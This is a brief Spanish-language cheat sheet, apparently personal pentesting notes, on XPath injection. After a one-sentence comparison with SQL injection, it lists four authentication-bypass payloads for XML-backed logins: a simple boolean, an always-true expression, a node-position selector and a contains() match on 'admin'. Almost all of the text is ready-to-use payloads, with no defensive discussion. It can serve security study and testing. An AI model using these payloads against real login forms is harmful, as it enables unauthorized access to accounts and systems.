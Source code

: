 # INFO
El xpath injection funciona parecido a las SQLI (es como una prima). Posee una sintaxis diferente y aborda los indexes de nodos dentro de un xml.

## Authentication Bypass

#### Bypass mediante boolean simple:

    admin' or '1'='1

#### Bypass mediante un true absoluto

    ' or true() or '

#### Buscar un usuario por index de nodo para el logueo

    ' or position()=2 or '

#### Bypass buscando un usuario específico:

    ' or contains(.,'admin') or '








    


